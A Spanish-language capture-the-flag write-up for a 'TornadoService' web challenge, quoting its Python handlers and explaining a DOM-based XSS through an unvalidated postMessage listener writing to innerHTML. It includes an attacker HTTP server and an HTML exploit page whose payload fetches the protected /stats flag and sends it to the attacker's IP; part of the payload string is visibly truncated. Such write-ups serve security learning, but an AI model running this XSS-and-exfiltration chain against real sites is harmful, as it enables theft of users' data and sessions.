



# TornadoService

Primero correr el programa en docker:
```bash
bash build_docker.sh
```



luego con `http://localhost:1337` se puede ver la pagina:



El programa parece que hace dos cosas, cambiar el estatus de un tornado y reportar un tornado.

Usando BurpSuite para `Proxy`, `Intercept`, `Open Browser`. Se una el browser para todo lo que sigue, así se puede capturar todo el tráfico.




Primero se va a revisar el `main.py` como en todos los challenges que se han hecho para ver como funciona y que debilidades hay, ademas de encontar pistas de como obtener el flag.

Observaciones de `main.py`:

- `/update_tornado` solo acepta requests de 127.0.0.1 (localhost-only)

```python
class UpdateTornadoHandler(BaseHandler):
	def initialize(self, tornados):
		self.tornados = tornados

	def post(self):
		self.set_header("Content-Type", "application/json")
		if not is_request_from_localhost(self):
			self.set_status(403)
			self.write(json_response("Only localhost can update tornado status.", "Forbidden", error=True))
			return

		try:
			data = json.loads(self.request.body)
			machine_id = data.get("machine_id")

			for tornado in self.tornados:
				if tornado.machine_id == machine_id:
					update_tornados(data, tornado)
					self.write(json_response(f"Status updated for {machine_id}", "Update"))
					return

			self.set_status(404)
			self.write(json_response("Machine not found", "Not Found", error=True))
		except json.JSONDecodeError:
			self.set_status(400)
			self.write(json_response("Invalid JSON", "Bad Request", error=True))

def is_request_from_localhost(handler):
    if handler.request.remote_ip in ["127.0.0.1", "::1"]:
        return True
    return False
```

- `/report_tornado` triggerea un chrome bot de selenium para visitar http://<ip>/agent_details

```python
class ReportTornadoHandler(BaseHandler):
	def initialize(self, tornados):
		self.tornados = tornados

	def get(self):
		self.set_header("Content-Type", "application/json")
		ip_param = self.get_argument("ip", None)
		tornado_url = f"http://{ip_param}/agent_details"
		if ip_param and is_valid_url(tornado_url):
			bot_thread(tornado_url)
			self.write(json_response(f"Tornado: {ip_param}, has been reported", "Reported"))
		else:
			self.set_status(400)
			self.write(json_response("IP parameter is required", "Bad Request", error=True))
```

- `/stats` aqui es donde se encuentra el flag. Retorna el flag, pero requiere una cookie valida

```python
class ProtectedContentHandler(BaseHandler):
	def get_current_user(self):
		return self.get_secure_cookie("user")

	def get(self):
		self.set_header("Content-Type", "application/json")
		if not self.current_user:
			self.set_status(401)
			self.write(json_response("Unauthorized access", "Unauthorized", error=True))
			return
		
		flag = read_file_contents("/flag.txt")
		self.write(json_response(flag, "Success"))
```

También se revisaron los archivos JavaScript de la aplicación y se encontró un comportamiento interesante en `tornado-service.js`. En este archivo existe una función que recibe mensajes mediante `window.addEventListener("message", ...)` y utiliza la información recibida para crear elementos en la página web. Sin embargo, los datos se procesan sin realizar validaciones previas y posteriormente se insertan directamente en el contenido HTML de la página mediante .innerHTML, lo que puede darnos chance de enviar información por ahi. 

Esto introduce una vulnerabilidad de tipo XSS de tipo DOM-Based, ya que el payload nunca necesita pasar por el servidor. Dado que el bot visita el panel de control alojado en `localhost:1337`, es posible enviarle un mensaje mediante `postMessage` que contenga código malicioso para que este sea procesado por la aplicación.

```js
window.addEventListener("message", (event) => {
    const tornado = event.data;

    if (!tornado.machine_id && !tornado.ip_address && !tornado.status) {
        return;
    }

    const listItem = createListItem(tornado);
    tornadoList.appendChild(listItem);
});
```
Entonces realizo un servidor HTTP con python `server.py` de donde el bot de selenium va a tomar el payload:

```python
from http.server import HTTPServer, SimpleHTTPRequestHandler

class Handler(SimpleHTTPRequestHandler):
    def guess_type(self, path):
        if path.endswith('agent_details'):
            return 'text/html'
        return super().guess_type(path)

HTTPServer(('0.0.0.0', 8383), Handler).serve_forever()
```

Y hay que obtener el IP del contenedor en terminal con:

```bash
ip addr show | grep "inet " | grep -v 127
```

Se crea un codigo html con los puertos que aprovecha el window.addEventListener("message", ...) en tornado-service.js toma tornado.machine_id y lo mete directo en .innerHTML sin sanitizar. Eso ejecuta un ``.

```html
<!DOCTYPE html>
<html>
<body>
<script>
  const yourIP = "172.17.0.1"; // Cambia esto por TU IP
  const yourPort = "8383";

  const xssPayload = `r.text())
    .then(d=>{
      fetch('http://${yourIP}:${yourPort}/?flag='+encodeURIComponent(d))
    })
  ">`;

  const win = window.open('http://localhost:1337');

  setTimeout(() => {
    win.postMessage({
      machine_id: xssPayload,
      ip_address: '1.1.1.1',
      status: 'active'
    }, '*');
  }, 3000);
</script>
</body>
</html>
```

Disparar el bot desde BurpSuite usando el repeater 